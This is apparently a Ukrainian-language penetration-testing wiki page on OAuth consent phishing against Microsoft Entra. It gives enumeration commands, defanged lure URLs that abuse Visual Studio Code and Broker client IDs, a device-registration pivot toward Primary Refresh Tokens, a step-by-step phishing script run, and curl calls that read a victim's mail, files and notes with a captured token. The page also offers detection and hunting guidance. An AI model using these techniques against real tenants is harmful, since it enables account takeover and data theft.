

# Az - OAuth Apps Phishing

{{#include ../../../banners/hacktricks-training.md}}

## OAuth App Phishing

**Microsoft Entra applications** можуть запитувати делеговані дозволи (scopes), які надаються Microsoft Graph та іншими API. Після надання згоди делегований токен дозволяє application діяти від імені автентифікованого користувача; він не може отримати доступ до даних, до яких цей користувач не має доступу. Application permissions є окремою app-only моделлю й не обмежуються дозволами автентифікованого користувача.<sup>[[4]](#references)</sup>

### Дозволи на згоду для app

Чи може **користувач надавати згоду apps**, контролюється політикою tenant. Tenant, що використовує застарілу політику згоди користувачів, дозволяє користувачам надавати згоду на дозволи, які не потребують згоди адміністратора; натомість адміністратори можуть обмежити згоду **apps від verified publishers для вибраних дозволів** або вимкнути згоду користувачів.<sup>[[3]](#references)[[5]](#references)</sup>

<figure><figcaption></figcaption></figure>

Якщо користувачі не можуть надавати згоду, **адміністратори** можуть надавати згоду applications від імені користувачів. Конкретна роль залежить від API та дозволу: `Application Administrator` і `Cloud Application Administrator` можуть надавати делеговані дозволи та більшість application permissions, тоді як application permissions Microsoft Graph потребують адміністратора з вищими привілеями, наприклад `Privileged Role Administrator`.<sup>[[3]](#references)[[12]](#references)</sup>

Поточні рекомендації Microsoft щодо реагування на інциденти визначають `openid`, `profile`, `email`, `User.Read`, `User.ReadBasic.All` і `offline_access` (якщо він використовується разом з іншим дозволом із низьким рівнем ризику) як початковий набір дозволів із низьким рівнем ризику. Фактичний список визначається політикою згоди tenant і може змінюватися.<sup>[[3]](#references)[[5]](#references)</sup>

Якщо користувачі можуть надавати згоду всім apps відповідно до політики tenant, вони можуть надати згоду на будь-який дозвіл, який не потребує згоди адміністратора.<sup>[[3]](#references)[[5]](#references)</sup>

### 2 типи атак

- **Unauthenticated / external-account consent phishing**: з облікового запису за межами цільового tenant зареєструвати multitenant application з делегованими дозволами з низьким рівнем ризику, такими як `User.Read` і `User.ReadBasic.All`, а потім за допомогою phishing переконати цільового користувача надати йому згоду. `User.ReadBasic.All` розкриває обмежений набір базових властивостей профілів інших користувачів від імені автентифікованого користувача.<sup>[[3]](#references)[[4]](#references)[[19]](#references)</sup>
- Для цього phished-користувач має **мати можливість надавати згоду applications із зовнішнього tenant** відповідно до політики цільового tenant.<sup>[[5]](#references)</sup>
- Якщо phished-користувач є адміністратором із необхідними повноваженнями для надання згоди, application може запитувати додаткові привілейовані делеговані дозволи з урахуванням обмежень API та ролі.<sup>[[3]](#references)[[12]](#references)</sup>
- **Authenticated / in-tenant consent phishing**: після компрометації principal, який може створювати або керувати applications у цільовому tenant, створити там application і за допомогою phishing переконати привілейованого користувача надати згоду на делеговані дозволи з вищими привілеями.<sup>[[3]](#references)[[12]](#references)</sup>
- У цьому випадку attacker уже може мати видимість directory, тому `User.ReadBasic.All` є менш цікавим.
- Корисними цілями є дозволи, які потребують згоди адміністратора, оскільки звичайний користувач може надавати згоду лише на дозволи, дозволені політикою tenant, але не на дозволи, обмежені для адміністраторів.<sup>[[4]](#references)[[6]](#references)</sup>

### Користувачам дозволено надавати згоду

Ці виклики Microsoft Graph, обмежені tenant, мають виконуватися з identity, авторизованою у цільовому tenant. Для читання політики авторизації потрібен `Policy.Read.All`; для переліку політик надання дозволів потрібен `Policy.Read.PermissionGrant`.<sup>[[9]](#references)[[10]](#references)</sup>
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```
- **Користувачі можуть надавати згоду для всіх застосунків**: Якщо `permissionGrantPoliciesAssigned` містить `ManagePermissionGrantsForSelf.microsoft-user-default-legacy`, користувачі можуть надавати згоду на будь-який дозвіл, який не потребує згоди адміністратора.<sup>[[5]](#references)</sup>
- **Користувачі можуть надавати згоду перевіреним видавцям або організації для вибраних дозволів**: Якщо він містить `ManagePermissionGrantsForSelf.microsoft-user-default-low`, згода користувача обмежена перевіреними застосунками або застосунками в межах tenant і дозволами, класифікованими як такі, що мають низький вплив.<sup>[[5]](#references)</sup>
- **Вимкнення згоди користувача**: Політика `ManagePermissionGrantsForSelf.*` не призначена. Збережіть усі наявні записи `ManagePermissionGrantsForOwnedResource.*`, оскільки вони керують окремими сценаріями згоди на ресурси.<sup>[[5]](#references)</sup>

Щоб перевірити умови та значення кожної політики надання дозволів, виконайте запит:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```
### **Application Admins**

Use immutable built-in `roleTemplateId` values instead of hard-coded tenant-specific directory-role object IDs. The `directoryRoles` members endpoint accepts either the role object ID or a built-in role template ID; the role must be activated in the tenant.<sup>[[11]](#references)[[12]](#references)</sup>
```bash
# Get activated directory roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators (roleTemplateId: 62e90394-69f5-4237-9190-012177145e10)
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles(roleTemplateId='62e90394-69f5-4237-9190-012177145e10')/members"

# Get Application Administrators (roleTemplateId: 9b895d92-2cd3-44c7-9d02-a6ac2d5ea5c3)
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles(roleTemplateId='9b895d92-2cd3-44c7-9d02-a6ac2d5ea5c3')/members"

# Get Cloud Application Administrators (roleTemplateId: 158c047a-c907-4556-b7ef-446551a6b5f7)
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles(roleTemplateId='158c047a-c907-4556-b7ef-446551a6b5f7')/members"
```
## **Огляд перебігу атаки**

Демонстрація consent-phishing може поєднувати домен-двійник під контролем оператора, multitenant app, делеговані дозволи та перенаправлення authorization-code. Microsoft Entra повертає authorization code до зареєстрованого redirect URI після входу та надання згоди; потім application обмінює цей code на токени.<sup>[[1]](#references)[[7]](#references)[[8]](#references)</sup>

1. **Реєстрація домену та хостинг**: Зареєструйте домен, схожий на довірений сайт, наприклад `safedomainlogin.com`, і розмістіть application consent-flow на піддомені, такому як `companyname.safedomainlogin.com`.<sup>[[1]](#references)</sup>
2. **Реєстрація application**: Зареєструйте multitenant application у tenant оператора, надайте йому релевантне для цілі display name і налаштуйте його redirect URI на розміщений endpoint.<sup>[[1]](#references)[[7]](#references)</sup>
3. **Дозволи**: Запитуйте лише делеговані API permissions, необхідні для авторизованого тесту, наприклад `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All` і `User.Read`. Наданий token залишається обмеженим доступом користувача, який увійшов у систему, і політикою consent цільового tenant.<sup>[[1]](#references)[[4]](#references)[[19]](#references)</sup>
4. **Посилання авторизації**: Створіть authorization link, що містить client ID application, і надішліть його вибраним користувачам у межах схваленого engagement. Цільовий користувач усе одно має пройти автентифікацію та виконати вимоги consent, MFA або Conditional Access.<sup>[[1]](#references)[[8]](#references)</sup>

## Trusted first-party authorization-code phishing

Інший technique повторно використовує **Microsoft first-party public client** та один із його зареєстрованих redirect URI замість реєстрації application під контролем зловмисника. Посилання-приманка відкриває реальний authorization endpoint Microsoft із `response_type=code`, специфічним для жертви `login_hint` і наявними дозволами вибраного client. Після автентифікації зловмисник переконує жертву повернути authorization code або повний callback URL, а потім обмінює code, використовуючи той самий client і redirect URI. Новий запит third-party consent може не відображатися, якщо first-party application уже має consent у tenant.<sup>[[24]](#references)[[25]](#references)</sup>

Самого натискання посилання недостатньо: зловмиснику все одно потрібен повернений code, і його необхідно обміняти до завершення терміну дії. Для обміну також потрібні точний redirect URI і, якщо в authorization request використовувався PKCE, відповідний `code_verifier`. Microsoft описує authorization codes як короткоживучі, що зазвичай завершують дію приблизно через одну хвилину; тому не слід узагальнювати значно довший термін дії, зафіксований для одного спостережуваного workflow Visual Studio Code, на всі authorization-code flows.<sup>[[24]](#references)[[25]](#references)</sup>

### Зловживання redirect і `state`

Authorization response може бути показаний у діалоговому вікні redirect-page, у тілі сторінки або в адресному рядку браузера. Навіть redirect handler, який завершується на порожній loopback page, може залишити `code=...` у видимому URL, що дає змогу застосувати social engineering із проханням до жертви скопіювати весь адресний рядок.<sup>[[25]](#references)</sup>

Значення `state` передається туди й назад для стану application і CSRF-кореляції. Воно не є доказом походження request. Якщо redirect handler відображає це значення, зловмисник може вставити на сторінку URL довіреної зустрічі або урядового сайту. Microsoft рекомендує не розміщувати URL і чутливі дані в `state`, а використовувати непрозорий ідентифікатор, який посилається на стан на стороні браузера.<sup>[[24]](#references)[[25]](#references)</sup>

Два варіанти Visual Studio Code ілюструють різницю між реальними OAuth-параметрами та візуальними decoys:<sup>[[25]](#references)</sup>

- **v2.0**: client `aebc6443-996d-45c2-90f0-388ff96faa56`, scope `https://graph.microsoft.com/.default` і зареєстрований redirect URI `https://insiders.vscode.dev/redirect`. Сторінка відображала code і повертала контрольоване зловмисником значення `state`.
- **v1.0**: той самий client використовував `resource=https://graph.microsoft.com` і `redirect_uri=https://vscode-redirect.azurewebsites.net`. Додатковий параметр `redirect=https://zoom.us/...` був лише візуальним decoy. Зрештою handler надсилав браузер на `127.0.0.1:9217/callback?code=...`, де порожня сторінка все ще розкривала code в адресному рядку.

Нижче наведено репрезентативні defanged requests.<sup>[[25]](#references)</sup>
```text
https://login.microsoftonline[.]com/organizations/oauth2/v2.0/authorize?state=https://trusted.example/meeting&client_id=aebc6443-996d-45c2-90f0-388ff96faa56&scope=https://graph.microsoft.com/.default&response_type=code&redirect_uri=https://insiders.vscode.dev/redirect&login_hint=<VICTIM_UPN>

https://login.microsoftonline[.]com/common/oauth2/authorize?redirect=https://zoom.us/j/<DECOY>&client_id=aebc6443-996d-45c2-90f0-388ff96faa56&resource=https://graph.microsoft.com&response_type=code&redirect_uri=https://vscode-redirect.azurewebsites.net&login_hint=<VICTIM_UPN>
```
### Pivot через Device Registration Service

Такий самий шаблон викрадення коду може націлюватися на клієнт Microsoft Authentication Broker `29d9ed98-a469-4536-ade2-f981bc1d605e` і ресурс Device Registration Service (DRS) `01cb2876-7ebd-4aa4-9cc9-d28bd4d359a9`. У спостережуваному запиті v1.0 використовувався callback Microsoft `https://login.microsoftonline.com/WebApp/CloudDomainJoin/8`; жертві було запропоновано повернути отриману callback URL, що містила код.<sup>[[25]](#references)</sup>
```text
https://login.microsoftonline[.]com/common/oauth2/authorize?url=https://teams.microsoft.com/<DECOY>&client_id=29d9ed98-a469-4536-ade2-f981bc1d605e&resource=01cb2876-7ebd-4aa4-9cc9-d28bd4d359a9&response_type=code&redirect_uri=https%3A%2F%2Flogin.microsoftonline.com%2FWebApp%2FCloudDomainJoin%2F8&amr_values=ngcmfa&login_hint=<VICTIM_UPN>
```
Після redemption коду токен із DRS scope можна використати для реєстрації rogue device. Дослідження underlying Windows enrollment flow показує, що потім Broker refresh token можна об'єднати з новою device identity, щоб запросити потужніший Primary Refresh Token (PRT), перенісши claims методів автентифікації з початкового входу. Подальший доступ до ресурсів усе ще залежить від чинності токена та Conditional Access.<sup>[[23]](#references)[[25]](#references)</sup>

Механізми device registration і PRT описані в:

{{#ref}}
../az-device-registration.md
{{#endref}}

{{#ref}}
../az-lateral-movement-cloud-on-prem/az-primary-refresh-token-prt.md
{{#endref}}

Інформацію про пов'язану Entra application, service-principal, user і device object model дивіться в:

{{#ref}}
../az-services/az-azuread.md
{{#endref}}

### Виявлення та пошук

- Виконуйте пошук у mail і proxy telemetry за `response_type=code` у поєднанні з наведеними вище client/redirect pairs. Аналізуйте query parameters замість зіставлення їхнього порядку та відрізняйте `redirect_uri` від decoy parameters, таких як `state`, `redirect` або `url`.<sup>[[25]](#references)</sup>
- Створюйте alert для sign-ins, у яких Visual Studio Code client ID `aebc6443-996d-45c2-90f0-388ff96faa56` звертається до ресурсу з display name, що містить `Microsoft Graph`, після формування baseline легітимної автентифікації Visual Studio Code.<sup>[[25]](#references)</sup>
- Correlate нову Entra device registration із незвичним `ClientIPAddress`, подальшим MFA approval і доступом до Graph або mailbox. Відстежуйте новий `deviceId` і неочікуваний `ClientAppID` у наступних events, оскільки proxy IPs можуть геолокуватися поблизу victim, а подальша Graph activity може показувати адресу Microsoft, а не адресу attacker.<sup>[[25]](#references)</sup>
- Розглядайте блокування `insiders.vscode.dev` і `vscode-redirect.azurewebsites.net` лише після оцінки легітимного використання Visual Studio Code. Conditional Access, що вимагає approved або managed devices, може зменшити подальший доступ, але зареєстрований Entra device не стає автоматично managed або compliant device.<sup>[[25]](#references)[[26]](#references)</sup>

## Приклад атаки

Використовуйте цей приклад лише в authorized test environment.

1. Зареєструйте **new application**. Використовуйте single-tenant registration для lab, обмеженого поточним directory, або multitenant registration, коли тесту потрібні users з іншого tenant. Встановіть **redirect URI** на endpoint, який отримуватиме authorization code (`http://localhost:8000/callback` за замовчуванням). Redirect URIs мають точно відповідати зареєстрованому значенню; HTTPS є обов'язковим, за винятком дозволених випадків із localhost.<sup>[[7]](#references)[[8]](#references)</sup>

<figure><figcaption></figcaption></figure>

2. Для confidential web-app authorization-code flow цього sample створіть application secret і безпечно збережіть його значення.<sup>[[7]](#references)[[15]](#references)</sup>

<figure><figcaption></figcaption></figure>

3. Виберіть delegated API permissions (наприклад, `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All` і `User.Read`). Дозволи, показані в consent prompt, і дозволи, фактично доступні токену, залежать від policy цільового tenant і access користувача.<sup>[[4]](#references)[[5]](#references)[[19]](#references)</sup>

<figure><figcaption></figcaption></figure>

>[!WARNING]
> Applications можуть запитувати permissions в API, відмінних від Microsoft Graph. Azure Resource Manager надає delegated scope `user_impersonation`, який зазвичай запитується як `https://management.azure.com/user_impersonation`; отриманий token усе ще авторизує лише операції, дозволені signed-in user. Інші resource APIs надають власні resource identifiers і scopes.<sup>[[4]](#references)[[6]](#references)[[20]](#references)</sup>

4. **Запустіть web page** ([**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)), яка запитує permissions. Sample формує authorization-code request і виводить отримані access і refresh tokens, тому ставтеся до captured tokens як до sensitive data.<sup>[[8]](#references)[[15]](#references)</sup>
```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```
5. **Надішліть URL жертві**
1. У цьому прикладі локальний URL — `http://localhost:8000`.<sup>[[15]](#references)</sup>
6. **Користувач повинен прийняти запит**, якщо політика згоди цільового tenant дозволяє запитані дозволи. Tenant може заблокувати запит або натомість вимагати згоди адміністратора.<sup>[[3]](#references)[[5]](#references)[[15]](#references)</sup>

<figure><figcaption></figcaption></figure>

7. Використайте **access token для доступу до фактично наданих дозволів**. Наведені нижче виклики відображають кореневий каталог drive, повідомлення поштової скриньки та блокноти OneNote користувача, який увійшов у систему, якщо token містить відповідні делеговані дозволи.<sup>[[16]](#references)[[17]](#references)[[18]](#references)</sup>
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List emails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## Інші інструменти

- [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer): Див. [Вступ до 365-Stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer), щоб ознайомитися з його workflow та конфігурацією illicit-consent-grant. Репозиторій документує його поточний Python CLI та web UI.<sup>[[1]](#references)[[2]](#references)[[21]](#references)</sup>
- [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit): Operator toolkit з OAuth phishing endpoint, backend Graph services та management interface.<sup>[[22]](#references)</sup>

## Post-Exploitation

### Phishing Post-Exploitation

Залежно від наданих permissions, token може отримувати доступ до даних tenant (наприклад, users або groups, до яких має доступ signed-in user), а також до файлів, нотаток або email користувача. Delegated write permissions також можуть дозволяти змінювати resources або directory settings, які signed-in user має право змінювати. Token не може перевищувати перетин delegated scopes та effective permissions signed-in user.<sup>[[4]](#references)[[16]](#references)[[17]](#references)[[18]](#references)[[19]](#references)</sup>

### Адміністратор застосунків Entra ID

Якщо compromised principal може керувати application registration — наприклад, як її owner або через роль `Application Administrator` чи `Cloud Application Administrator` — principal може оновлювати authentication properties застосунку та requested permissions. Керування застосунком охоплює redirect URIs і колекцію `requiredResourceAccess`, яка визначає consent experience; самостійне додавання requested permissions не надає їх.<sup>[[12]](#references)[[13]](#references)[[14]](#references)</sup>

- Attacker може додати redirect URI, контрольований attacker, не видаляючи легітимний, а потім надіслати authorization request, у якому параметр `redirect_uri` використовує додане значення. URI має бути зареєстрований і точно збігатися. Якщо користувач має active session, sign-in може відбутися без повторного введення credentials, але MFA, Conditional Access, consent та app-specific state checks усе ще можуть втрутитися.<sup>[[7]](#references)[[8]](#references)</sup>
- У authorization-code flow перенаправлена відповідь зазвичай є короткоживучим authorization code, а не access token автоматично; його redeeming усе ще потребує client secret або правильного PKCE verifier. Вплив залежить від flow застосунку та client configuration.<sup>[[8]](#references)[[15]](#references)</sup>
- Додавання permissions може спричинити появу нового consent prompt для користувачів. Existing grants автоматично не стають grants для newly requested permissions, а застосунок має отримати необхідний user або administrator consent.<sup>[[5]](#references)[[14]](#references)</sup>
- Attacker не потрібно змінювати source code застосунку, щоб додати redirect URI або змінити його requested permissions, але успішне token acquisition усе ще залежить від authorization flow і credentials, описаних вище.<sup>[[13]](#references)[[14]](#references)</sup>

### Application Post Exploitation

Перевірте розділи Applications і Service Principal на сторінці:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/
{{#endref}}

## References

- [1] [Вступ до 365-Stealer — розуміння та виконання атаки Illicit Consent Grant](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [2] [Azure AD — Phishing — Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)
- [3] [Розслідування App consent grant](https://learn.microsoft.com/en-us/security/operations/incident-response-playbook-app-consent)
- [4] [Огляд permissions і consent у Microsoft identity platform](https://learn.microsoft.com/en-us/entra/identity-platform/permissions-consent-overview)
- [5] [Налаштування способу надання користувачами consent застосункам](https://learn.microsoft.com/en-us/entra/identity/enterprise-apps/configure-user-consent)
- [6] [Scopes і permissions у Microsoft identity platform](https://learn.microsoft.com/en-us/entra/identity-platform/scopes-oidc)
- [7] [Типи застосунків для Microsoft identity platform](https://learn.microsoft.com/en-us/entra/identity-platform/v2-app-types)
- [8] [Отримання доступу від імені користувача](https://learn.microsoft.com/en-us/graph/auth-v2-user)
- [9] [Отримання authorizationPolicy](https://learn.microsoft.com/en-us/graph/api/authorizationpolicy-get?view=graph-rest-1.0)
- [10] [Перелік permissionGrantPolicies](https://learn.microsoft.com/en-us/graph/api/permissiongrantpolicy-list?view=graph-rest-1.0)
- [11] [Перелік учасників directory role](https://learn.microsoft.com/en-us/graph/api/directoryrole-list-members?view=graph-rest-1.0)
- [12] [Вбудовані ролі Microsoft Entra](https://learn.microsoft.com/en-us/entra/identity/role-based-access-control/permissions-reference)
- [13] [Оновлення application](https://learn.microsoft.com/en-us/graph/api/application-update?view=graph-rest-1.0)
- [14] [Керування applications Microsoft Entra за допомогою Microsoft Graph](https://learn.microsoft.com/en-us/graph/tutorial-applications-basics)
- [15] [azure_oauth_phishing_example.py](https://raw.githubusercontent.com/carlospolop/azure_oauth_phishing_example/main/azure_oauth_phishing_example.py)
- [16] [Перелік вмісту папки](https://learn.microsoft.com/en-us/graph/api/driveitem-list-children?view=graph-rest-1.0)
- [17] [Перелік повідомлень](https://learn.microsoft.com/en-us/graph/api/user-list-messages?view=graph-rest-1.0)
- [18] [Перелік notebooks](https://learn.microsoft.com/en-us/graph/api/onenote-list-notebooks?view=graph-rest-1.0)
- [19] [Довідник permissions Microsoft Graph](https://learn.microsoft.com/en-us/graph/permissions-reference)
- [20] [Довідник Authentication JavaScript API: Azure service scopes](https://learn.microsoft.com/en-us/fabric/extensibility-toolkit/authentication-javascript-api)
- [21] [365-Stealer](https://github.com/AlteredSecurity/365-Stealer)
- [22] [o365-attack-toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)
- [23] [Phishing для Primary Refresh Tokens і ключів Windows Hello](https://dirkjanm.io/phishing-for-microsoft-entra-primary-refresh-tokens/)
- [24] [Microsoft identity platform і OAuth 2.0 authorization code flow](https://learn.microsoft.com/en-us/entra/identity-platform/v2-oauth2-auth-code-flow)
- [25] [Phishing кодів: російські threat actors націлюються на Microsoft 365 OAuth workflows](https://www.volexity.com/blog/2025/04/22/phishing-for-codes-russian-threat-actors-target-microsoft-365-oauth-workflows/)
- [26] [Як працює реєстрація пристроїв Microsoft Entra](https://learn.microsoft.com/en-us/entra/identity/devices/device-registration-how-it-works)
{{#include ../../../banners/hacktricks-training.md}}
